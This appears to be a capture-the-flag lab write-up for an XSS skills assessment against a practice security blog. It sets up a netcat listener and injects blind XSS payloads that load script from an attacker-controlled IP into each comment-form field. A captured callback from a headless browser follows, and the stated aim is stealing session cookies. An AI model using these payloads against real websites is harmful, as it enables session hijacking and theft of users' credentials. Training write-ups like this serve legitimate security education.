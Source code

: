 # Cross-Site Scripting (XSS) Skills Assessment

## Objective: 
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new Security Blog. 
In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

- Identify a user-input field that is vulnerable to an XSS vulnerability
- Find a working XSS payload that executes JavaScript code on the target's browser
- Using the Session Hijacking techniques, try to steal the victim's cookies, which should contain the flag

---

<img width="1207" height="630" alt="image" src="https://github.com/user-attachments/assets/0576a823-61e7-4bc1-b7c2-5deeec578189" />
<img width="1671" height="506" alt="image" src="https://github.com/user-attachments/assets/86a51e56-218c-4d6c-a6ff-12d80d8fe85f" />

<img width="702" height="609" alt="image" src="https://github.com/user-attachments/assets/5cb92a16-df0c-4546-a6fb-a3208ff7027b" />



```
$ sudo nc -nvlp 9001
listening on [any] 9001 ...
```

Use the payload '><script src="http://<IP>:<Port>/FieldName"></script> in the all of the fields to see which ones will request a file to the nc listener:


Comment = `'><script src="http://10.10.14.47:9001/CommentField"></script>`

Name* = `'><script src="http://10.10.14.47:9001/NameField"></script>`

Email* = `'><script src="http://10.10.14.47:9001/EmailField"></script>`

Website* = `'><script src="http://10.10.14.47:9001/WebsiteField"></script>`

<img width="686" height="620" alt="image" src="https://github.com/user-attachments/assets/ec584086-333e-4d70-8653-02ccdc017714" />

<img width="727" height="186" alt="image" src="https://github.com/user-attachments/assets/261c7468-8ff4-4a3a-919b-eb4c109b64cd" />

<img width="799" height="622" alt="image" src="https://github.com/user-attachments/assets/3cd333ad-866c-4829-b016-ed0fe7b0dd66" />

```
$ sudo nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.47] from (UNKNOWN) [10.129.68.16] 51038
GET /WebsiteField HTTP/1.1
Host: 10.10.14.47:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/91.0.4472.101 Safari/537.36
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```
